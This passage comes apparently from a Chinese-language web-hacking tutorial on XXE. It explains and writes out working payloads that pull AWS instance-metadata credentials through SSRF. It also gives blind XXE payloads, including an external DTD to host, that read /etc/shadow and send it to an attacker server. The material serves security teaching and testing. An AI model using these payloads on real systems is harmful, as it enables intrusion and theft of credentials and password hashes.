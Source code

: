 你还可以使用 XXE 发起 SSRF 来获取实例元数据，就像我们在第十三章中讨论过的那样。这个负载将使解析器返回 AWS 元数据：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY file SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<example>&file;</example>
```

当尝试查看像这样意外的数据时，你应该通过检查页面源代码（右键点击页面并选择**查看源代码**）或直接查看 HTTP 响应，而不是查看浏览器呈现的 HTML 页面，因为浏览器可能无法正确呈现页面。

当然，你使用 XXE 攻击所能做的不仅限于网络扫描和获取实例元数据。你还可以利用收集到的信息转向内部服务。想了解更多如何利用 SSRF 的思路，可以参考第十三章。

### 使用盲 XXE

有时应用程序不会将 XML 解析结果返回给用户。在这种情况下，你仍然可以通过强迫 XML 解析器在请求的 URL 中包含所需数据，向你控制的服务器发送外部请求，从而提取数据——这就是前面提到的盲目 XXE 攻击。然后，你可以通过监控服务器日志来获取提取的数据。此时，你可能会认为盲目 XXE 的有效载荷看起来像这样：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY file SYSTEM "file:///etc/shadow"> <!ENTITY exfiltrate SYSTEM "http://attacker_server/?&file">
]>
<example>&exfiltrate;</example>
```

这个有效载荷旨在通过将文件内容作为 URL 参数传递给攻击者的服务器，从服务器上提取*/etc/shadow*文件。该有效载荷首先定义了一个名为`file`的外部实体，包含本地*/etc/shadow*文件的内容。然后，它通过将该文件的内容作为请求的 URL 参数，向攻击者的服务器发起请求。

然而，这个攻击可能不会成功，因为大多数解析器不允许将外部实体包含在其他外部实体中。解析器会在遇到以下这一行时停止处理 DTD：`<!ENTITY exfiltrate SYSTEM "http://attacker_server/?&file">`。因此，使用盲目 XXE 提取数据比经典 XXE 要复杂一些。

幸运的是，XML DTD 具有一个叫做*参数实体*的特性，我们可以利用它。参数实体是只能在 DTD 的其他地方引用的 XML 实体。它们通过百分号（`%`）字符声明和引用。例如，我之前介绍的盲目 XXE 有效载荷可以改写如下：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY % file SYSTEM "file:///etc/shadow"> 1 <!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>"> 2 %ent; %exfiltrate;
]>
```

这个 DTD 首先声明了一个名为`file`的参数实体，包含*/etc/shadow*文件的内容 1。然后声明了一个名为`ent`的参数实体，包含另一个参数实体`exfiltrate`的动态声明 2。`&#x25;`是百分号（`%`）的十六进制编码版本。根据目标的不同，十六进制编码有时是需要的，特别是在动态声明中涉及到特殊字符时。`exfiltrate`实体指向攻击者的服务器，并将*/etc/shadow*的内容放在 URL 参数中。最后，DTD 引用`ent`来声明`exfiltrate`实体，再通过引用`exfiltrate`触发外部请求。

但如果你尝试将这个有效载荷上传到目标，可能会发现它不起作用。这是因为，根据 XML 规范，参数实体在内联 DTD（XML 文档中的`DOCTYPE`标签内指定的 DTD）和外部 DTD（在其他地方托管的单独 DTD）中会被不同对待。在内联 DTD 中，参数实体不能在标记中引用，因此这一行将不起作用：`<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>`，而在外部 DTD 中，则没有这样的限制。

要通过盲目 XXE 提取数据，你必须克服这一限制，方法是将外部 DTD 托管在你的服务器上。尝试在你的服务器上托管一个名为*xxe.dtd*的文件：

```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
%ent;
%exfiltrate;
```
